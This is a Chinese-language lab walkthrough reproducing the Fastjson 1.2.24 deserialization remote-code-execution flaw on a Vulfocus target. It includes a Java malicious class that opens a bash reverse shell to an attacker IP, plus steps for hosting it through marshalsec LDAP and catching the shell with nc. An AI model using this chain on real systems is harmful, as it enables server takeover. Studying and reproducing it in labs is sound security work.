

# Fastjson-1.2.24反序列化导致任意命令执行漏洞 by [fengyehack](https://github.com/fengyehack) 

## 一、漏洞描述

FastJson库是Java的一个Json库，其作用是将Java对象转换成json数据来表示，也可以将json数据转换成Java对象，使用非常方便，号称是执行速度最快的库。

在1.2.24版本的Fastjson出现了一个反序列化的漏洞，fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

## 二、漏洞影响版本

fastjson <= 1.2.24

## 三、漏洞复现

启动Vulfocus靶场的fastjson1.2.24-rce




修改java恶意类代码

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
   static {
       try {
          Runtime r = Runtime.getRuntime();
          Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/IP/1888 0>&1"});
          p.waitFor();
       } catch (Exception e) {
           // do nothing
       }
   }
}
```


编译恶意类代码 javac TouchFile.java 生成 TouchFile.class


上传编译好的恶意类到服务器


然后使用 python -m SimpleHTTPServer 快速搭建http服务


使用marshalsec开启ldap服务


nc监听


访问fastjson页面，使用Burp抓包，改为POST请求，使用exp反弹shell


可以看到请求成功，加载了恶意类


成功拿到shell


